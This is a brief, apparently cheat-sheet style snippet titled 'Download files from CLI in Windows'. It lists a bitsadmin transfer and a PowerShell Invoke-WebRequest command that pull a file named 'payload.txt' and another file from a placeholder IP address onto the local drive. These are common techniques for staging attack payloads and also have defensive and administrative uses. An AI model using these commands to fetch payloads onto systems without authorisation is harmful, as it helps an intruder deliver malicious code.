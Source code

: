 Download files from CLI in Windows
------------------------------------
bitsadmin /transfer wcb /priority high https://xxx.xxx.xxx.xxx/payload.txt C:\payload.txt

powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx/file.txt -O c:\file.txt

